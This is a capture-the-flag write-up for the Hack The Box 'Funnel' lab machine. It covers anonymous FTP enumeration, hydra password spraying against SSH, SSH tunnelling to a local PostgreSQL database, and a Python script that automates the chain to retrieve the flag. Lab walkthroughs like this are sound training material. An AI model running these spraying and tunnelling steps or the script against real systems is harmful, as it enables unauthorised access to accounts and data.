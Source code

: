 ﻿# HTB Funnel Writeup

## Introduction

The **Funnel** machine in Hack The Box (HTB) demonstrates the importance of secure network practices and how attackers can exploit weak configurations. This write-up covers **FTP enumeration, password spraying, SSH tunneling, and PostgreSQL exploitation** to retrieve the final flag.

## **Enumeration**

### **Nmap Scan**
We start by scanning the target IP using `nmap` to identify open ports and running services.

```bash
sudo nmap -sC -sV --min-rate=1000 -oA TunnelScan -p- 10.129.228.195 -Pn
```

#### **Results:**
- **Port 21** → `vsftpd 3.0.3` (Anonymous FTP Access)
- **Port 22** → `OpenSSH 8.2p1`
- **Local Port 5432** → `PostgreSQL (Found later via SSH tunneling)`

---

## **Exploiting FTP (Anonymous Access)**

We connect to FTP as an **anonymous user** and check available files.

```bash
ftp 10.129.228.195
# Login as anonymous
ls
```

Found directory **`mail_backup`** containing:
- `welcome_28112022`
- `password_policy.pdf`

We download these files:

```bash
cd mail_backup
get welcome_28112022
get password_policy.pdf
```

From the **welcome_28112022** file, we extract possible usernames:
- `optimus@funnel.htb`
- `albert@funnel.htb`
- `andreas@funnel.htb`
- **`christine@funnel.htb`** (did not change password)
- `maria@funnel.htb`

From `password_policy.pdf`, we find a **default password**:  
**`funnel123#!#`**

---

## **Password Spraying SSH**

Using `hydra`, we attempt password spraying against the SSH service.

```bash
hydra -L usernames.txt -p 'funnel123#!#' 10.129.228.195 ssh
```

Successful login found for:  
**`christine:funnel123#!#`**

We log in:

```bash
ssh christine@10.129.228.195
```

---

## **Local Port Enumeration (PostgreSQL Discovery)**

After gaining access, we check for locally running services:

```bash
ss -tl
```

We find **PostgreSQL (port 5432) is listening locally**.

---

## **SSH Tunneling to Expose PostgreSQL**

We set up an SSH tunnel to forward **local port 1234 → remote port 5432**.

```bash
ssh -L 1234:localhost:5432 christine@10.129.228.195
```

We verify the connection:

```bash
nmap -sV -sC -p 1234 localhost
```

---

## **Interacting with PostgreSQL**

We install the PostgreSQL client on our local machine.

```bash
sudo apt update && sudo apt install postgresql-client
```

Connect using `psql`:

```bash
psql -h 127.0.0.1 -p 1234 -U christine
```

List available databases:

```sql
\list
```

Connect to the `secrets` database:

```sql
\c secrets
```

Check for tables:

```sql
\dt
```

Retrieve the **flag**:

```sql
SELECT * FROM flag;
```

**FLAG:** `cf277664b1771217d7006acdea00****`

---

## **Automation Script (PoC)**

Below is a Python script that automates the entire process.

```python
import os
import paramiko
import psycopg2
import ftplib
import subprocess

TARGET_IP = "10.129.228.195"
FTP_DIR = "mail_backup"
USERNAME = "christine"
PASSWORD = "funnel123#!#"
LOCAL_PORT = 1234
REMOTE_PORT = 5432

def ftp_download():
    ftp = ftplib.FTP(TARGET_IP)
    ftp.login("anonymous", "")
    ftp.cwd(FTP_DIR)
    ftp.retrbinary("RETR welcome_28112022", open("welcome_28112022", "wb").write)
    ftp.retrbinary("RETR password_policy.pdf", open("password_policy.pdf", "wb").write)
    ftp.quit()

def ssh_tunnel():
    subprocess.Popen(f"ssh -L {LOCAL_PORT}:localhost:{REMOTE_PORT} {USERNAME}@{TARGET_IP}", shell=True)
    
def fetch_flag():
    conn = psycopg2.connect(dbname="secrets", user=USERNAME, password=PASSWORD, host="127.0.0.1", port=LOCAL_PORT)
    cur = conn.cursor()
    cur.execute("SELECT * FROM flag;")
    print("[FLAG]:", cur.fetchone()[0])
    conn.close()

ftp_download()
ssh_tunnel()
fetch_flag()
```

---

## **Conclusion**
By leveraging **FTP enumeration, SSH password spraying, local service discovery, and port forwarding**, we successfully retrieved the flag from the `secrets` database.
